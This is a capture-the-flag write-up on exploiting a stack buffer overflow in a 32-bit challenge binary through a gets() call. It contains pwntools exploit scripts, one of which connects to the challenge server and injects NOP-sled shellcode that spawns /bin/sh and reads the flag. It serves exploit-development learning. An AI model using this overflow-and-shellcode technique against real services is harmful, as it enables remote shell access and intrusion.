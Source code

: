 ## pwn3
#### Making it a habit that whenever there's a pwn chall, we need to check the security measures first using the *checksec* utility from pwntools:
```
$ checksec pwn3
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
#### As we can see, the output is different from the previous pwn challenges. This binary has no canary and has NX disasbled - meaning we can execute code on the stack. More details [here](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/). Basically, no canary means that we can do some kind of a buffer overflow on the stack, since no measures are put in place to determine whether some part of it is overwritten. NX, short-hand for 'non-executable', is disabled meaning segments of the binary are not only writeable, but also executable. We run the binary to have an initial look at what it does:
```
$ ./pwn3
  Take this, you might need it on your journey 0xff92adce!
```
#### From what we see, it prints out that string and waits for user input afterwards. The printed string comes with some kind of an address (which changes everytime the binary is executed) which will be useful later on. We then fire up gdb to look at the inner workings of the challenge. 
```
$ gdb ./pwn3
  gdb-peda$ disas main
   [...]
   0x00000612 <+47>:	add    esp,0x10
   0x00000615 <+50>:	call   0x59d <echo>
   0x0000061a <+55>:	mov    eax,0x0
   0x0000061f <+60>:	lea    esp,[ebp-0x8]
   [...]
```
#### The call to a function called ```echo``` is interesting, let's have a deeper look at it by disassembling the function:
```
gdb-peda$ disas echo
  Dump of assembler code for function echo:
     0x0000059d <+0>:	  push   ebp
     0x0000059e <+1>:	  mov    ebp,esp
     0x000005a0 <+3>:	  push   ebx
     0x000005a1 <+4>:	  sub    esp,0x134
     0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
     0x000005ac <+15>:	add    ebx,0x1a20
     0x000005b2 <+21>:	sub    esp,0x8
     0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
     0x000005bb <+30>:	push   eax
     0x000005bc <+31>:	lea    eax,[ebx-0x191c]
     0x000005c2 <+37>:	push   eax
     0x000005c3 <+38>:	call   0x410 <printf@plt>
     0x000005c8 <+43>:	add    esp,0x10
     0x000005cb <+46>:	sub    esp,0xc
     0x000005ce <+49>:	lea    eax,[ebp-0x12a]
     0x000005d4 <+55>:	push   eax
     0x000005d5 <+56>:	call   0x420 <gets@plt>
     0x000005da <+61>:	add    esp,0x10
     0x000005dd <+64>:	nop
     0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x000005e1 <+68>:	leave  
     0x000005e2 <+69>:	ret    
  End of assembler dump.
```
#### The function loads whatever are in the locations ```[ebp-0x12a]``` and ```[ebx-0x191c]``` into the stack and used as arguments for the printf call. Recalling what we have got so far with the initial start up of the binary, we know that ```[ebx-0x191c]``` in this part stores the address which is printed. Looking below the disassembly, we see a ```gets``` call which stores the input into the buffer at ```[ebp-0x12a]```. The size of the buffer is 0x12a(298) and that is the exact offset at which the stack can be started to be overwritten.
#### Putting together what we already know, we can perform a buffer overflow attack and execute some code in the stack. So our exploit method will be a buffer overflow into executing shellcode. To do that, we need the address of the stack - but that isn't a problem anymore since the address for the stack is already given at the start of the program. So our exploit method will be buffer overflow into changing eip to stack address and placing our shellcode in there for the stack to execute. We create a simple exploit.py script and test it locally to see if it's able to execute our sigtrap:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn3')

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack)
sigtrap = '\xCC'
exploit = offset + esp + sigtrap

#: Send data
p.sendline(exploit)
print(p.recv())
```
#### We run the script, but we get an error:
```
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 919)
```
#### Let's try to redirect the output of the script into a file and use gdb to analyze what's happening.
```
$ python exploit.py > exploit
$ gdb ./pwn3
    gdb-peda$ r < exploit
        [...]
        0xffffd069:	inc    ecx
        0xffffd06a:	inc    ecx
        0xffffd06b:	inc    ecx
     => 0xffffd06c:	ds iret 
        0xffffd06e:	(bad)  
        0xffffd06f:	dec    esp
        0xffffd071:	int3   
        0xffffd072:	int3
        [...]
```
#### We see here that the program stops even before it reaches our int3 (sigtrap) instructions. This is due to the ```ds iret``` call which switches program execution into user mode. What I did was to look for another address in the stack which can be able to execute our code. I don't remember the exact details of how I did this, but what I do remember is that I found some address on the stack that executes the sigtraps, noted it, subtracted it with the given stack address on the start of the program, and got the exact offset to begin executing code - stack + 311. After we point the eip into that address of the stack, we'd need to perform a short ```nopsled``` (a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired destination whenever the program branches to a memory address anywhere on the slide) in order to call our shellcode. The shellcode I will be using is handcrafted (needed to learn the basics of shellcoding. Great resource [here](https://0x00sec.org/t/linux-shellcoding-part-1-0/289)). We know create our final exploit script to connect with the challenge server, get a shell, and print out our flag:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4323
p = remote(HOST,PORT)

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack + 311)
nopsled = '\x90' * 10
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80'
exploit = offset + esp + nopsled + shellcode

#: Send data
p.sendline(exploit)
p.sendline('cat flag.txt')
print(p.recv())
```
#### And finally, after 3 days of being stuck at the challenge, we get the flag.
```
$ python exploit.py

Take this, you might need it on your journey 0xffdb4d5e!

gigem{r3m073_fl46_3x3cu710n}
```

